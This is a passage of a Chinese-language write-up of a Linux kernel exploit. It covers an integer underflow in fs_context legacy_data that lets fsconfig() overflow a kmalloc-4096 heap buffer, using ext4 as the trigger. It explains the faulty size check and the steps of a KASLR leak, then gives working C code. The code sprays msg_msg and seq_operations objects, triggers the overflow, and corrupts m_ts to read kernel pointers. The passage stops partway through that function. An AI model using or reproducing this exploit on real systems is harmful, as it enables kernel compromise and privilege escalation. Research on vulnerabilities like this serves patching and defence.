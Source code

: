 **9p / ext4 触发**：`fsopen()` 打开一个文件系统环境，用户可以用来mount新的文件系统。 `9p` （the Plan 9 filesystem）是一种文件系统，能触发本文漏洞，Linux中常用的ext4文件系统也能触发本漏洞（本文就是利用ext4来触发漏洞）。`fsconfig()` 调用能让我们往`ctx->legacy_data` 写入一个新的 `(key，value)`，`ctx->legacy_data`  指向一个 4096 字节的缓冲区（在首次配置文件系统时就进行分配）。

**漏洞分析**：`[4]` 处 `len > PAGE_SIZE-2-size`， len是将要写的长度，`PAGE_SIZE == 4096` ，size 是已写的长度，2字节表示一个逗号和一个NULL终止符。 问题在于采用减法来进行检查，size是`unsigned int` （总是被当做正值），会导致整数溢出，如果相减的结果小于0，还是会被包装成一个正值。 如果117次添加长度为0的key和长度为33的value，最终的size则为`(117*(33+2)) == 4095`，这样`PAGE_SIZE-2-size == -1 == 18446744073709551615 `，这样无论len多大都能满足条件。key设置为 `\x00`，这样逗号会写入偏移4095，等号写入下一个kmalloc-4096的偏移0处，接着就能往偏移1处开始往后写value。

**漏洞限制**：key和value都是string类型，会产生`\x00`截断。可以采用value来伪造 `msg_msg->m_ts`；只有采用key来伪造`msg_msg->m_list.next`。因为 value 只能从邻近堆块（kmalloc-4096）的偏移1处开始覆盖，因为第1个逗号 `,` 会写在漏洞对象的偏移 4095，等号会写在邻近堆块的偏移0处，所以如果要正确伪造 `msg_msg->m_list.next`，则只能利用key来传值。

## 3. 漏洞利用方法1—任意写篡改 `modprobe_path`

#### 3-1 泄露内核基址

**泄露内核基址**：喷射大量 `seq_operations` —— `open(“/proc/self/stat”, O_RDONLY)` ，溢出篡改 `msg_msg->m_ts` 泄露地址。具体步骤如下。

- （1）准备 `fs_context ` 漏洞对象；
- （2）往 kmalloc-32 喷射 `seq_operations` 对象；
- （3）喷射 `msg_msg` 消息 （大小为 `0xfe8`），会将辅助消息分配在 kmalloc-32；
- （4）触发 kmalloc-4096 溢出，篡改 `msg_msg->m_ts`；
- （5）利用 `msg_msg` 越界读。泄露内核指针。

```c
void *do_kaslr_leak () {
	uint64_t kbase = 0;
	char pat[0x30] = {0};
	char buffer[0x2000] = {0}, received[0x2000] = {0};
	msg *message = (msg *)buffer;
	int size = 0x1018;
	int targets[K_SPRAY] = {0};
	int i;
	// Spray queues/messages
	for (i = 0; i < K_SPRAY; i++) {
		memset(buffer, 0x41+i, sizeof(buffer));
		targets[i] = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT);
		send_msg(targets[i], message, size - 0x30, 0);
	}
	// Spray function pointers
	for (int i = 0; i < 100; i++) {
		open("/proc/self/stat", O_RDONLY);
	}
	get_msg(targets[0], received, size - 0x30, 0, MSG_NOERROR | IPC_NOWAIT | MSG_COPY);
	memset(pat, 0x42, sizeof(pat));
	pat[sizeof(pat)-1] = '\x00';
	fd = fsopen("ext4", 0);
	if (fd < 0) {
		exit(-1);
	}
	strcpy(pat, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
	for (int i = 0; i < 117; i++) {
		fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0);
	}
	// Corrupt the size field to 0x1060
	char tiny[] = "DDDDDDD";
	char tiny_evil[] = "DDDDDD\x60\x10";
	fsconfig(fd, FSCONFIG_SET_STRING, "CCCCCCCC", tiny, 0);
	fsconfig(fd, FSCONFIG_SET_STRING, "\x00", tiny_evil, 0);
	size = 0x1060;
	for (int i = 0; i < K_SPRAY; i++) {
		get_msg(targets[i], received, size, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR);
		// Check for valid kernel pointer and aligned base
```